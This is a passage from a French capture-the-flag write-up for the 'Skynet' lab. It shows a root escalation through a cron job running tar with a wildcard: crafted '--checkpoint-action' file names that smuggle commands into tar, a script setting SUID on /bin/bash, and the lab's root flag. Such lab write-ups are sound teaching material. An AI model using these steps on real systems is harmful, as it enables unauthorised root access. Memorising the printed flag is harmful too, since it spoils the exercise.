[](./screen/Skynet/1VXj4KM7ei.png)

!!! warning "Observation clé"
    La ligne `*/1 * * * * root /home/milesdyson/backups/backup.sh` révèle que ce script est exécuté **toutes les minutes en tant que root**. C'est un vecteur d'escalade de privilèges idéal.

On explore le répertoire de sauvegarde pour localiser le script :

```bash
ls -larth /home/milesdyson/backups
```

[](./screen/Skynet/WindowsTerminal_OCUSQHuAs1.png)

On inspecte le contenu du script :

```bash
cat /home/milesdyson/backups/backup.sh
```

[](./screen/Skynet/WindowsTerminal_lKlxPaE7Ya.png)

Le script exécute :
```bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

Le wildcard `*` dans la commande `tar` est le point d'entrée : on peut créer des fichiers dont le nom sera interprété comme des options par `tar`.

### Étape 13 : Escalade de privilèges par injection de wildcard (tar)

Le script `backup.sh` exécute `tar` directement depuis `/var/www/html`, qui est aussi le dossier racine du site web que nous avons compromis via la RFI. Notre shell `www-data` y a donc un accès en écriture : c'est cet accès qui va nous permettre de déposer des fichiers qui seront ensuite traités par le `tar` lancé en root par le cron.

On prépare d'abord le script qui sera exécuté avec les privilèges root. Il ajoute le bit SUID au binaire `/bin/bash`, ce qui permet ensuite à n'importe quel utilisateur de lancer un shell avec les droits de son propriétaire, ici root :

```bash
echo -e '#!/bin/bash\nchmod +s /bin/bash' > /var/www/html/root_shell.sh
```

On crée ensuite deux fichiers vides dont le nom commence par `--`, pour qu'ils soient interprétés comme des options de `tar` plutôt que comme de simples noms de fichiers lors de l'expansion du wildcard `*` :

```bash
touch "/var/www/html/--checkpoint-action=exec=sh root_shell.sh"
touch "/var/www/html/--checkpoint=1"
```

[](./screen/Skynet/WindowsTerminal_IGiFXSlVJh.png)

!!! info "Comment fonctionne cette technique ?"
    Quand `tar` développe le wildcard `*`, il liste tous les fichiers du répertoire, y compris ceux dont le nom commence par `--`. Ces noms sont interprétés comme des **options de tar** :

    - `--checkpoint=1` → affiche la progression à chaque fichier
    - `--checkpoint-action=exec=sh root_shell.sh` → exécute `root_shell.sh` à chaque checkpoint

    Comme le cron exécute ce `tar` en tant que root, c'est avec ces privilèges que `root_shell.sh` est lancé, et donc le bit SUID est ajouté à `/bin/bash` par root.

Après environ une minute (délai du cron), on vérifie que le bit SUID a bien été ajouté avec `ls -l /bin/bash` : la présence du `s` dans les permissions le confirme. On peut alors lancer `/bin/bash -p`, l'option `-p` indiquant à bash de conserver les privilèges effectifs de son propriétaire au lieu de les abandonner au démarrage, ce qui donne un shell root :

```bash
ls -l /bin/bash
/bin/bash -p
```

[](./screen/Skynet/WindowsTerminal_VfcZHzbDmr.png)

On lit le flag root :

```bash
cat /root/root.txt
```

[](./screen/Skynet/WindowsTerminal_xpQ1I1vYJr.png)

!!! success "Réponse"
    **What is the root flag?** → `3f0372db24753accc7179a282cd6a949`

## Synthèse technique

| Catégorie                   | Détails                                                                 |
|-----------------------------|------------------------------------------------------------------------|
| **Vulnérabilités identifiées** | Partage SMB anonyme, brute-force webmail, Remote File Inclusion (EDB-25971), wildcard injection dans cron |
| **Techniques utilisées**     | Enumération SMB, brute-force, exploitation RFI, reverse shell, tar wildcard injection |
| **Outils employés**          | nmap, smbclient, gobuster, hydra, searchsploit, python http.server, netcat |

!!! abstract "Ce qu'il faut retenir"
    1. L'énumération initiale (SMB, web, wordlists) est cruciale pour découvrir des points d'entrée.
    2. `searchsploit` permet d'identifier rapidement des exploits connus pour des CMS ou services identifiés.
    3. Les failles de type RFI permettent souvent une prise de contrôle complète du serveur.
    4. Un script cron exécuté en root avec `tar *` est exploitable par wildcard injection, toujours auditer `/etc/crontab` lors d'un pentest.
